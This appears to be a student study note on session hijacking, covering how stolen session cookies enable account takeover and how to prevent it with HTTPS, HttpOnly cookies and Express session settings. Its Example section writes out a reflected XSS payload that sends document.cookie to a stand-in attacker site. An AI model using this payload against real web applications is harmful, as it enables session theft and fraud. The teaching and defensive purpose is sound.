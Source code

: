- An attack where a user session is taken over by an attacker
- A session starts when you log into a service, for example your banking application, and ends when you log out
- Also known as cookie hijacking as attack relies on attacker's knowledge of you session cookie

## Execution
---
- In most cases when logging in to a web application, the server sets a temporary session cookie in your browser to remember that you are currently logged in and authenticated
- At attacker who manages to steal your session cookie can take over, I.e. Hijack your session by using the same session ID and fool the server into treating the attacker's connection as your original user's valid session

## Possibilities
---
If successful, the attacker can then perform any actions that the original user is authorized to do during the active session
- Transfer money from the user's bank account
- Pose as the user to buy items in web stores
- Access detailed personal information for identity theft
- Steal clients' personal data from company systems
- Encrypt valuable data and demand ransom to decrypt them

## Example
---
```
http://www.TrustedSearchEngine.com/search?<script>location.href='http://www.SecretVillianSite.com/hijacker.php?coookie='+document.cookie;</script>
```
- Victim clicks on link in email
- This would react the current session cookie using document.cookie and send it to the attacker's website by setting the location URL in the browser using location.href
- In this case, a successful attack relies on the application and web server accepting and executing un-validated input from the HTTP request

## Prevention
---
- Session Hijacking threats exists due to limitations of the stateless HTTP protocol
- No single guaranteed protection method but we can minimize the risk of attackers obtaining a valid session token

### HTTPS
- Use HTTPS to ensure SSL/TLS encryption of all session traffic
- HTTP (Hyper Text Transfer Protocol) packets are a standard of communicating information where information is sent in plaintext, such that an attacker listening to network traffic may "sniff" out information
- However, HTTPS (HTTP Secure) uses TLS (Transport Layer Security) or SSL (Secure Sockets Layer) to cryptographically secure text

### HTTP Only
- Set the HttpOnly attribute using the Set-Cookie HTTP header to prevent access to cookies from client-side scripts and specify the Secure and SameSite directives
```
app.use(session({ 
	cookieName: 'sessionName', 
	secret: "notagoodsecretnoreallydontusethisone", 
	resave: false, 
	saveUninitialized: true, 
	httpOnly: true, // dont let browser javascript access cookie ever 
	secure: true, // only use cookie over https 
	ephemeral: true // delete this cookie while browser close 
}));
```

### Web Frameworks
- Web frameworks offer highly secure and well-tested session ID generation and management mechanisms
- There are various different session modules for express
- Examples:
	- Express-session
	- Cookie-session

### User Identity Verification
- Perform additional user identity verification beyond the session key, Eg check user's usual IP address or application usage patterns or implement user inactivity timeout to close the user session after a set idle time
- Check user's usual IP address
```
var ip = req.header('x-forwarded-for') || req.connection.remoteAddress;
```
- Implement session timeout
```
const session = require('express-session'); 
app.use(session({ 
	secret: 'secret', 
	cookie: { 
		expires: 120000 
	} 
}));
```

#EnterpriseSystemsDevelopment 